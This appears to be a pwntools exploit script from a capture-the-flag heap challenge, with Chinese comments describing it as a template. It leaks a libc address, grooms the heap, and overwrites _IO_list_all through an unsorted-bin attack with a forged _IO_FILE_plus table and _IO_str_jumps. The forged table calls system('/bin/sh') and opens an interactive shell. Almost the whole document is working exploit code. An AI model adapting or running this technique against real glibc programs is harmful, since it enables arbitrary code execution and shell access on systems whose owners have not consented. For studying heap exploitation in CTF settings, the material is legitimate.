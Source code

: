 ```
r.sendafter("name","a"*8) #可用于泄露程序地址，libc地址，栈地址 0x00007fffffffecc0
r.recvuntil("a"*8)
libc.address = u64(r.recv(6).ljust(8,'x00')) -0x7ffff7bb5720+ 0x00007ffff780a000
success(hex(libc.address))
for i in range(0x2fe):
    round(0x2000,0x1f, 0,'a'*0x2000)
round(0x2000,0xe, 0, 'a'*0x2000)
# consume freed chunk at the tail of heap_0
round(0x300, 0, 0, '') 
#剩下0x1e0大小的unsortbin,将以下payload溢出覆盖正常的unsortbin
#模板：
system_addr = libc.sym['system']
bin_sh_addr = next(libc.search("/bin/sh"))
io_list_all = libc.sym['_IO_list_all'] #&amp;_IO_list_all
io_str_jump = libc.sym['_IO_file_jumps']+0xc0 #&amp;_IO_str_jumps
payload = 'b'*0x10
#需要将(_IO_list_all或_IO_2_1_stderr+0x68_或_IO_2_1_stdout_+0x68或_IO_2_1_stdin_+0x68)的值修改为伪造表的地址或者一个0x68处指向伪造表的指针（如unsortbin攻击），比如将*_IO_list_all修改为a,a的0x68处指针为b，b就是以下payload，为伪造的io_file_plus表
payload += p64(0) + p64(0x61) + p64(0) +p64(io_list_all-0x10) +p64(0)+p64(1)+p64(0)
payload += p64(bin_sh_addr) + p64(0)*19 +p64(io_str_jump-8)
payload += p64(0) + p64(system_addr)#system调用时会将IO_buf_base设为参数，实现shell
#这里的io_list_all-0x10主要是为了利用unsortbin attack，修改_IO_list_all的值为main_arena+0x58，在有任意地址写的能力时，就不需要这么麻烦了。
#payload长度0x100
round(0x100,0, 1, 'a'*0xf0) #剩余0x10
r.send(payload)
r.sendlineafter("Choice","0")
r.sendlineafter("Size",str(0x10))
r.interactive()
```
